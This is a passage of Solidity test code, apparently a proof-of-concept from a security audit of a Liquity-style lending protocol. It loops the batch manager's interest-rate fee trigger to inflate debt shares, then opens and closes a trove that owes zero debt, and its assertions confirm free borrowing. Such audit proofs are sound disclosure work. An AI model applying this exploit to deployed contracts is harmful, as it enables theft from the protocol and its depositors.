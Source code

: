 ```solidity
        _logTrovesAndBatch(B, BTroveId);

        // === 3: Compound gains === //
        // We can now spam
        // Each block, we will rebase the share by charging the upfrontFee
        // This endsup taking
        uint256 y;
        while(y < 2560) {
            _triggerInterestRateFee();
            y++;

            LatestTroveData memory troveData = troveManager.getLatestTroveData(BTroveId);
            // This flags that we can borrow for free
            if(troveData.entireDebt > 4000e18 + 1) {
                break;
            }
        }
        // 2391 blocks
        console2.log("We have more than 2X MIN_DEBT of rebase it took us blocks:", y);

        _logTrovesAndBatch(B, BTroveId);


        // === 4: Free Loans === //
        uint256 debtB4 = borrowerOperations.getEntireSystemDebt();
        // We can now open a new Trove
        uint256 anotherATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MIN_ANNUAL_INTEREST_RATE);
        LatestTroveData memory anotherATrove = troveManager.getLatestTroveData(anotherATroveId);
        uint256 aDebt = anotherATrove.entireDebt;

        // It will pay zero debt
        assertEq(aDebt, 0, "Forgiven");

        uint256 balB4 = boldToken.balanceOf(A);
        closeTrove(A, anotherATroveId);
        uint256 balAfter = boldToken.balanceOf(A);

        // And we can repeat this to get free debt
        uint256 debtAfter = borrowerOperations.getEntireSystemDebt();

        assertEq(balB4, balAfter, "No thing was paid");
        assertGt(debtAfter, debtB4, "We got it for free");
    }
    
    uint128 subTractor = 1;

    // Trigger interest fee by changing the fee to it -1 
    function _triggerInterestRateFee() internal {
        // Add Fee?
        vm.warp(block.timestamp + 1);
        vm.startPrank(B);
        borrowerOperations.setBatchManagerAnnualInterestRate(1e18 - subTractor++, 0, 0, type(uint256).max);
        vm.stopPrank();
    }

    

    function _logTroveInBatch(uint256 troveId) internal {

        LatestTroveData memory troveData = troveManager.getLatestTroveData(troveId);
        console2.log("troveData debt", troveData.entireDebt);
```